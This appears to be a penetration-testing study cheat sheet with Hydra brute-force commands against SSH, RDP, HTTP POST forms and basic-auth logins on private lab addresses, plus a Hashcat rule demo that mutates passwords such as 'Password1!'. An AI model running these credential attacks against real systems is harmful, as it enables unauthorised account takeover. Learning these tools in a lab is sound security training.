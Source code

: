 
can use tools like `hash-identifier` and `hash-id` on kali to identify the types of hash being used.
##### USERNAME FILES
```
/usr/share/wordlists/dirb/others/names.txt
```
##### HASHCAT RULES
```
ls -la /usr/share/hashcat/rules/
```
### HYDRA
BF SSH USING PWD LIST
```
hydra -l <single_username> -P /usr/share/wordlists/rockyou.txt -s <port> ssh://192.168.50.201
```
BF RDP USING USER LIST AND SINGLE PWD
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "PASSWORD" rdp://192.168.50.202
```


#### HTTP POST LOGIN FORM
cmd to attack using a http post login form
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
this works for base64 
```
hydra -I -L wordlists.txt -P wordlists.txt 'http-post-form://192.168.238.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:F=403'    
```


if the login is a `basic HTTP AUTH`, we can run using this cmd
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.192.201 http-get /
```



### ADDING PWD RULES

Since many users simply append a "1" to a password that requires a numerical value, let's create a rule file containing **$1** to append a "1" to all passwords in our wordlist.

```
echo \$1 > demo.rule
```

below is the rule to capitalise first letter, add 1 to the end as well as a $
```
cat demo1.rule     
```
`$1 c $!`

```
kali@kali:~/passwordattacks$ hashcat -r demo1.rule --stdout demo.txt
```
and we get this mutated wordlist
```
Password1!
Iloveyou1!
Princess1!
Rockyou1!
Abc1231!
```
